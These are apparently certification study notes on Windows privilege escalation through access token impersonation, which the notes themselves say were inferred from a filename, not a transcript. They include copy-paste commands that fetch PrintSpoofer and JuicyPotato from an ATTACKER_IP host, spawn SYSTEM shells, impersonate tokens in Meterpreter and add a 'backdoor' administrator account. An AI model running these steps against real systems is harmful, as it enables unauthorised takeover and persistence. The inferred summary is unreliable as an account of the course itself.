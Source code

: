 # 06 - Access Token Impersonation (Windows Privilege Escalation)

Note: No transcript was provided. The following is a conservative, eJPT-oriented summary inferred from the filename and typical Windows privilege escalation workflows for access token impersonation.

## What the video covers (Introduction / big picture)
- Concept of Windows access tokens and how impersonation enables a lower-privileged context (often a service account) to execute as a higher-privileged user.
- Identifying key privileges (especially SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege) that enable token-based local privilege escalation.
- Two practical paths:
  - Using Meterpreter’s Incognito to list and impersonate available tokens.
  - Using standalone “potato-like” exploit tools (e.g., PrintSpoofer) to get a SYSTEM shell when SeImpersonatePrivilege is present.
- Verification and post-exploitation steps after impersonation (confirming identity, persistence).

## Flow (ordered)
1. Establish a foothold on the Windows target (low-privilege user or service account).
2. Enumerate current user, groups, and token privileges.
3. If SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege is present:
   - Prefer a modern tool such as PrintSpoofer to spawn a SYSTEM shell.
4. If you have a Meterpreter session:
   - Load Incognito, enumerate tokens, and impersonate a high-privilege token if available.
5. Validate escalation (whoami, whoami /priv).
6. Establish persistence or escalate to a stable SYSTEM/admin context.
7. Clean up any dropped binaries if necessary.

## Tools highlighted
- Built-in:
  - whoami /priv, whoami /user, whoami /groups
  - sc query Spooler (to check Print Spooler status)
- Metasploit/Meterpreter:
  - Incognito extension (list_tokens, impersonate_token)
  - getsystem (as a fallback)
- Third-party:
  - PrintSpoofer (SeImpersonatePrivilege → SYSTEM)
  - Optional: JuicyPotato/RoguePotato/SweetPotato/GodPotato (older/alternative techniques; may depend on OS and mitigations)

## Typical command walkthrough (detailed, copy-paste friendly)

### 1) Basic enumeration (target)
```cmd
whoami
whoami /priv
whoami /groups
whoami /all
```

Check if Print Spooler is running (helpful for PrintSpoofer):
```cmd
sc query Spooler
```

### 2) PrintSpoofer path (when SeImpersonatePrivilege is present)
Upload PrintSpoofer (choose one method):

PowerShell:
```powershell
powershell -c "Invoke-WebRequest -Uri http://ATTACKER_IP:8000/PrintSpoofer64.exe -OutFile C:\Windows\Temp\ps.exe"
```

Certutil:
```cmd
certutil -urlcache -f http://ATTACKER_IP:8000/PrintSpoofer64.exe C:\Windows\Temp\ps.exe
```

Run it to spawn a SYSTEM cmd:
```cmd
C:\Windows\Temp\ps.exe -i -c cmd.exe
```

Verify:
```cmd
whoami
whoami /priv
```

Establish persistence (optional):
```cmd
net user backdoor Passw0rd! /add
net localgroup administrators backdoor /add
```

### 3) Meterpreter Incognito path (if you already have a Meterpreter session)
In msfconsole:
```text
sessions -i 1
```

In the Meterpreter session:
```text
getuid
getprivs
load incognito
list_tokens -u
```

Impersonate a high-privilege token if present (replace DOMAIN\Administrator with what you see under Delegation Tokens or Impersonation Tokens):
```text
impersonate_token "DOMAIN\\Administrator"
getuid
```

Drop to a shell and verify:
```text
shell
whoami
whoami /priv
```

If needed, try getsystem (may work depending on context):
```text
getsystem
getuid
```

Persist (optional):
```cmd
net user backdoor Passw0rd! /add
net localgroup administrators backdoor /add
```

Revert impersonation if required:
```text
rev2self
```

### 4) (Optional) JuicyPotato-style approach (legacy/OS-dependent)
Note: Requires selecting a valid CLSID and often a listening port; may fail on newer Windows due to mitigations. Prefer PrintSpoofer where possible.

Upload JuicyPotato and run with a suitable CLSID:
```cmd
certutil -urlcache -f http://ATTACKER_IP:8000/JuicyPotato.exe C:\Windows\Temp\jp.exe
C:\Windows\Temp\jp.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c whoami" -t * -c {CLSID}
```

If successful, spawn SYSTEM shell:
```cmd
C:\Windows\Temp\jp.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {CLSID}
```

## Practical tips
- SeImpersonatePrivilege is common with service accounts (e.g., LOCAL SERVICE, NETWORK SERVICE). If present, PrintSpoofer is usually the most reliable and simplest path to SYSTEM.
- Use the 64-bit binary on 64-bit Windows. Mismatched architectures can cause failures.
- PrintSpoofer typically relies on the Print Spooler service; if it’s stopped/disabled, try alternative potatoes (e.g., RoguePotato) or other privesc vectors.
- In Meterpreter, tokens under “Delegation Tokens” are typically usable for network access; “Impersonation Tokens” may be local-only. Prefer delegation tokens for broader capability.
- After impersonation, verify with whoami and whoami /priv. If you need stability, create a new admin user or run a service as SYSTEM.
- OPSEC: Clean up dropped binaries and temporary files (e.g., C:\Windows\Temp\ps.exe).

## Minimal cheat sheet (one-screen flow)
- Enumerate:
```cmd
whoami & whoami /priv & whoami /groups
sc query Spooler
```
- If SeImpersonatePrivilege → PrintSpoofer:
```cmd
certutil -urlcache -f http://ATTACKER_IP:8000/PrintSpoofer64.exe C:\Windows\Temp\ps.exe
C:\Windows\Temp\ps.exe -i -c cmd.exe
whoami
```
- Meterpreter Incognito:
```text
load incognito
list_tokens -u
impersonate_token "DOMAIN\\Administrator"
getuid
shell
whoami
```
- Persistence:
```cmd
net user backdoor Passw0rd! /add
net localgroup administrators backdoor /add
```
- Cleanup:
```cmd
del C:\Windows\Temp\ps.exe
```

## Summary
This module demonstrates Windows access token impersonation as a practical local privilege escalation technique. You enumerate token privileges first; if SeImpersonatePrivilege (or SeAssignPrimaryTokenPrivilege) is present, use PrintSpoofer to get a SYSTEM shell quickly. If operating within a Meterpreter session, the Incognito extension can list and impersonate tokens for local admin or SYSTEM context when available. Always verify escalation and, if required, establish persistence in a controlled, auditable manner.